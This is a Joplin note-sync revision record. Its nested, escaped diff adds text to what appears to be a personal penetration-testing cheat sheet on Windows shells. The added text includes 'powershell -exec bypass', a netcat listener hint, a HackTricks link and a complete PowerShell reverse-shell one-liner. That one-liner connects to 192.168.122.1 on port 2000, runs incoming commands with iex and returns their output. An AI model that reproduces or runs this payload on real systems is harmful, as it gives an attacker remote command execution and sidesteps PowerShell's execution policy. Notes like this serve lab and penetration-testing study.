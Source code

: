 id: 56b9293cdd474516b680730d70e4e87e
parent_id: 
item_type: 1
item_id: d68a2beee43a47d19a7cc6b17739598a
item_updated_time: 1646016695927
title_diff: "[{\"diffs\":[[1,\"2c4e49c4a2a5405abe1feabb28ceb954\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 2c4e49c4a2a5405abe1feabb28ceb954\\\r\\\nparent_id: 648dfcec2ac04f91a7994dffdfd0ae40\\\r\\\nitem_type: 1\\\r\\\nitem_id: 1a72f4e7464d467d810fc01a3adf9ed0\\\r\\\nitem_updated_time: 1643601792981\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"nd shell\\\\\\\"],[-1,\\\\\\\": \\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[0,\\\\\\\"powershe\\\\\\\"]],\\\\\\\"start1\\\\\\\":106,\\\\\\\"start2\\\\\\\":106,\\\\\\\"length1\\\\\\\":18,\\\\\\\"length2\\\\\\\":18},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"\\\\\\\\\\\\\npowershell \\\\\\\"],[1,\\\\\\\"-exec bypass \\\\\\\"],[0,\\\\\\\"-c \\\\\\\\\\\\\\\"$listene\\\\\\\"]],\\\\\\\"start1\\\\\\\":115,\\\\\\\"start2\\\\\\\":115,\\\\\\\"length1\\\\\\\":24,\\\\\\\"length2\\\\\\\":37},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"ener\\\\\\\"],[-1,\\\\\\\"): powershell\\\\\\\"],[1,\\\\\\\" \\\\\\\\\\\\\\\\[Use NetCat\\\\\\\\\\\\\\\\]):\\\\\\\\\\\\\n\\\\\\\\\\\\\npowershell -exec bypass\\\\\\\"],[0,\\\\\\\" -c \\\\\\\"]],\\\\\\\"start1\\\\\\\":764,\\\\\\\"start2\\\\\\\":764,\\\\\\\"length1\\\\\\\":21,\\\\\\\"length2\\\\\\\":50},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"ent('10.\\\\\\\"],[-1,\\\\\\\" \\\\\\\"],[0,\\\\\\\"11.0.4',\\\\\\\"]],\\\\\\\"start1\\\\\\\":861,\\\\\\\"start2\\\\\\\":861,\\\\\\\"length1\\\\\\\":17,\\\\\\\"length2\\\\\\\":16},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"Close()\\\\\\\\\\\\\\\"\\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\nURL for more info\\\\\\\\\\\\\n\\\\\\\\\\\\\nhttps://book.hacktricks.xyz/shells/shells/windows\\\\\\\\\\\\\n\\\\\\\\\\\\\npowershell -exec bypass -c \\\\\\\\\\\\\\\"$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); \\\\\\\\\\\\\\\\[byte\\\\\\\\\\\\\\\\[\\\\\\\\\\\\\\\\]\\\\\\\\\\\\\\\\]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\\\\\\\\\\\\\[text.encoding\\\\\\\\\\\\\\\\]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\\\\\\\\\\\\\\\"\\\\\\\"]],\\\\\\\"start1\\\\\\\":1314,\\\\\\\"start2\\\\\\\":1314,\\\\\\\"length1\\\\\\\":8,\\\\\\\"length2\\\\\\\":620}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-31T04:03:37.727Z\\\r\\\ncreated_time: 2022-01-31T04:03:37.727Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1731}]"
metadata_diff: {"new":{"id":"d68a2beee43a47d19a7cc6b17739598a","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016695916,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.378Z
created_time: 2022-02-28T02:54:22.378Z
type_: 13